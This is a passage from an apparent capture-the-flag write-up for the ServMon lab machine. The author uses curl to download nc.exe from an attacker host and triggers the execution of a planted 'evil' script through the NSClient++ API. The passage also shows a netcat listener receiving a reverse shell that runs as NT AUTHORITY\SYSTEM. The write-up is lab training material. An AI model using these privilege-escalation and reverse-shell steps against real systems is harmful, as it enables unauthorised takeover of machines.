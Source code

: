 ```text
nadine@SERVMON C:\Temp>curl http://10.10.15.20:8090/nc.exe
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.

nadine@SERVMON C:\Temp>curl http://10.10.15.20:8090/nc.exe --output nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  59392      0  0:00:01 --:--:--  0:00:01  264k

nadine@SERVMON C:\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Temp

21/06/2020  13:12    <DIR>          .
21/06/2020  13:12    <DIR>          ..
21/06/2020  13:12                 0 evil.bat
21/06/2020  14:36            59,392 nc.exe
               2 File(s)         59,392 bytes
               2 Dir(s)  27,866,644,480 bytes free

```

I was not the only to make mistakes while transferring files to this machine.  Another user had tried to upload `nc.exe` \(_I overwrote this_\) and their `evil.bat` to the `C:\Temp` folder but had failed \(_file size of 0 bytes seen above_\).  I figured out that had forgotten to add `--output <file_name>` at first.  Luckily it gave a warning to remind me of this.  

```text
nadine@SERVMON C:\Temp>curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=1m
Enter host password for user 'admin':

{"command":"evil","lines":[{"message":"Command evil didn't terminate within the timeout period 60s","pe
rf":{}}],"result":3}
```

Despite the error message seen above, once I successfully uploaded `nc.exe` to the folder I had specified in my payload `C:\Temp`, and then sent the execute query once again, I received my reverse shell on my host machine.  The error message above I believe is to let an administrator know that there was a long-running script that did not terminate within the specified timeout period.  

### Getting a root shell

```text
zweilos@kalimaa:~$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.20] from (UNKNOWN) [10.10.10.184] 49698
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


```